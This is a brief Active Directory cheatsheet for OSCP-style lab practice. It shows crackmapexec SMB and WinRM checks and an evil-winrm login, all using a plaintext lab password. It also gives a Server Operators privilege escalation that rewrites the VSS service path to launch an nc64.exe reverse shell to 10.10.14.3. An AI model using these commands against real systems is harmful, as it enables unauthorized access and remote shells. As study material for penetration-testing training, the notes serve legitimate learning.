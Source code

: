 ```yaml
---
title : "AD-Cheatsheet"
author: imdang 🤞🤞
date: 2024-10-22 11:30:00 +0800
categories: [Cheatsheet]
tags: [crackmapexec, winrm, AD, Active Directory, OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon

## Scan

### crackmapexec 

- Check smb share

```shell
crackmapexec smb 10.10.11.108 --shares
crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
```

- Check winrm

```shell
crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

# Exploit

### WinRM

```shell
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

# Privilege Escalation 

### See priv

```shell
whoami /priv
```

## Group priv

### Server Operators 

- Can edit and run service

```shell
PS C:\prog> sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\prog\nc64.exe -e cmd 10.10.14.3 443"
[SC] ChangeServiceConfig SUCCESS
PS C:\prog> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.

PS C:\prog> sc.exe start VSS
```


# Other Tools

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
